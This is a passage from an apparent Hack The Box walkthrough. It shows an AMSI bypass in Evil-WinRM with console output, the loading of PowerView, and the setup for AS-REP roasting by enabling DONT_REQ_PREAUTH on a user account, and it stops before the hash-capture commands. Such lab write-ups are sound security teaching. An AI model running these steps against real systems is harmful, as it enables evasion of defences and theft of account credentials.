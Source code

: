 
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) has an AMSI bypass
built in. It’s a bit weird in that you have to run `menu` first, and then the
command, or it errors out:

    
    
    *Evil-WinRM* PS C:\programdata> Bypass-4MSI                                              
    The term 'Bypass-4MSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify th
    at the path is correct and try again.
    At line:1 char:1
    + Bypass-4MSI
    + ~~~~~~~~~~~
        + CategoryInfo          : ObjectNotFound: (Bypass-4MSI:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException 
        
    *Evil-WinRM* PS C:\programdata> menu
    
       ,.   (   .      )               "            ,.   (   .      )       .   
      ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
    .; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
    _".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
    \_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
     |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
     |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
    /_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
            \/                               \/          \/       \/         \/ 
                  By: CyberVaca, OscarAkaElvis, Laox @Hackplayers  
      
    [+] Bypass-4MSI 
    [+] Dll-Loader 
    [+] Donut-Loader 
    [+] Invoke-Binary
    
    *Evil-WinRM* PS C:\programdata> Bypass-4MSI                                               
    [+] Patched! :D
    

Once I do that, I can load `PowerView.ps1`:

    
    
    *Evil-WinRM* PS C:\programdata> Import-Module .\PowerView.ps1                             
    

### Get AS-REP Hash

In [Forest](/2020/03/21/htb-forest.html#as-rep-roasting) I used AS-REP
Roasting to get a foothold on the machine. Here, because I can edit the
attributes for the user, I’m going to enable the `DONT_REQ_PREAUTH` flags on
the jorden account, and then get that same hash and crack it.

If I look at what is currently set for the jorden user, it’s the
`NORMAL_ACCOUNT` and `DONT_EXPIRE_PASSWORD` flags:

    
    